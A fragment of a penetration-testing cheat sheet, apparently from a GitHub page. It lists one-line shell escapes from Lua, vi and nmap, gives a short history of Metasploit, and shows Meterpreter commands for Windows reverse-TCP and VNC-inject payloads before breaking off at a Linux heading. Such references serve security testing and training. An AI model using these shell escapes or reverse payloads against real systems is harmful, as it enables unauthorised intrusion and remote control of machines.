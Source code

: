  <h3>Spawn Lua TTY Shell</h3> 
 <figure> 
 <pre>os.execute('/bin/sh')</pre> 
 </figure> 
 <h3>Spawn TTY Shell from Vi</h3> 
 <p>Run shell commands from vi:</p> 
 <figure> 
 <pre>:!bash</pre> 
 </figure> 
 <h3>Spawn TTY Shell NMAP</h3> 
 <figure> 
 <pre>!sh</pre> 
 </figure> 
 <h2>Metasploit</h2> 
 <p>Metasploit was created by H. D. Moore in 2003 as a portable network tool using Perl. By 2007, the Metasploit Framework had been completely rewritten in Ruby. On October 21, 2009, the Metasploit Project announced that it had been acquired by Rapid7, a security company that provides unified vulnerability management solutions.</p> 
 <p>Like comparable commercial products such as Immunity’s Canvas or Core Security Technologies’ Core Impact, Metasploit can be used to test the vulnerability of computer systems or to break into remote systems. Like many information security tools, Metasploit can be used for both legitimate and unauthorized activities. Since the acquisition of the Metasploit Framework, Rapid7 has added two open core proprietary editions called Metasploit Express and Metasploit Pro.</p> 
 <p>Metasploit’s emerging position as the de facto exploit development framework led to the release of software vulnerability advisories often accompanied by a third party Metasploit exploit module that highlights the exploitability, risk and remediation of that particular bug. Metasploit 3.0 began to include fuzzing tools, used to discover software vulnerabilities, rather than just exploits for known bugs. This avenue can be seen with the integration of the lorcon wireless (802.11) toolset into Metasploit 3.0 in November 2006. Metasploit 4.0 was released in August 2011.</p> 
 <h3>Meterpreter Payloads</h3> 
 <h3>Windows reverse meterpreter payload</h3> 
 <table> 
 <thead> 
 <tr> 
 <th>Command</th> 
 <th>Description</th> 
 </tr> 
 </thead> 
 <tbody> 
 <tr> 
 <td>set payload windows/meterpreter/reverse_tcp</td> 
 <td>Windows reverse tcp payload</td> 
 </tr> 
 </tbody> 
 </table> 
 <h3>Windows VNC Meterpreter payload</h3> 
 <table> 
 <thead> 
 <tr> 
 <th>Command</th> 
 <th>Description</th> 
 </tr> 
 </thead> 
 <tbody> 
 <tr> 
 <td>set payload windows/vncinject/reverse_tcp<p></p> 
 <p>set ViewOnly false</p></td> 
 <td>Meterpreter Windows VNC Payload</td> 
 </tr> 
 </tbody> 
 </table> 
 <h3>Linux Reverse Meterpreter payload</h3> 
 <table> 
 <thead> 
